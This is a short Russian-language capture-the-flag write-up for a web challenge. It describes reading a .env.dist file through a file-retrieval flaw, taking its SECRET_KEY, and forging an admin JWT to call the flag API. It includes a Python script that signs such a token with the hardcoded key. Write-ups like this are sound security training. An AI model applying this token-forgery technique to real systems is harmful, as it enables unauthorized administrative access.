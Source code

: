 #hard #web #JWT #FS

#### Решение
- Через уязвимость в получение файлов достаем .env.dist
- Из .env.dist достаем SECRET_KEY и на его основе генерим JWT с админсским доступом
- Под админом дергаем апиху на получение флага

#### Код генерации JWT

```python
from jose import jwt

SECRET_KEY = "713c50ce0a4902af7571debb36dd14abd95a45c9104b299b1f91afd52f356e47"
ALGORITHM = "HS256"

payload = {
"exp": "1745341191",
"iat": "1745254791",
"user_id": "faf49c98-0cab-4af4-b917-b0c96a710938",
"username": "admin_kek",
"is_admin": True,
}

token = jwt.encode(payload, SECRET_KEY, algorithm=ALGORITHM)
print(token)
```

#### Скрины

![](image-1.webp)

![](image-2.webp)

![](image-3.webp)

![](image-4.webp)

![](image-5.webp)

![](image-6.webp)

![](image-7.webp)

![](image-8.webp)

![](image-9.webp)

